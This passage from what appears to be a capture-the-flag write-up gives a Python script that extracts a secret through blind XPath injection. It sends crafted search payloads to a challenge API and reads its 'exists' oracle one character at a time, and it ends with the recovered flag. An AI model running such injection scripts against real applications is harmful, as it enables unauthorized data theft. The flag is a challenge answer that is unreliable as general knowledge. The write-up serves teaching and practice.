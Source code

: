 We now have all the information to start bruteforcing the flag. 

```python
#!/usr/share/python3

from lxml import etree
import requests, string

url = 'http://138.68.177.159:30743/api/search'

flag = ""
first_flag = 21 # random'] | /military/district/staff[3]/selfDestructCode[string-length(text()) = 21] | /military/district/staff[name='random
second_flag =  15 # random'] | /military/district/staff[2]/selfDestructCode[string-length(text()) = 15] | /military/district/staff[name='random
alphabet = string.ascii_letters + string.digits + "$" + "{}_()"

print("Character set: " + alphabet)

for i in range(1, first_flag + 1):
    for al in alphabet:
        print("Testing: " + al +"\n")
        myobj = {"search":"random'] | /military/district/staff[3]/selfDestructCode[substring(text()," + str(i) + ",1) = '" + al + "'] | /military/district/staff[name='random"}
        with requests.post(url, json = myobj, stream=True) as x:
            status = x.json()['message']
            if status == "This millitary staff member exists.": 
                flag += al
                print("FLAG: " + flag)
                break

for i in range(1, second_flag + 1):
    for al in alphabet:
        print("Testing: " + al +"\n")
        myobj = {"search":"random'] | /military/district/staff[2]/selfDestructCode[substring(text()," + str(i) + ",1) = '" + al + "'] | /military/district/staff[name='random"}
        with requests.post(url, json = myobj, stream=True) as x:
            status = x.json()['message']
            if status == "This millitary staff member exists.": 
                flag += al
                print("FLAG: " + flag)
                break
```

![flag](/assets/images/Pasted_image_20210421122458.png)

```
FLAG: CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```
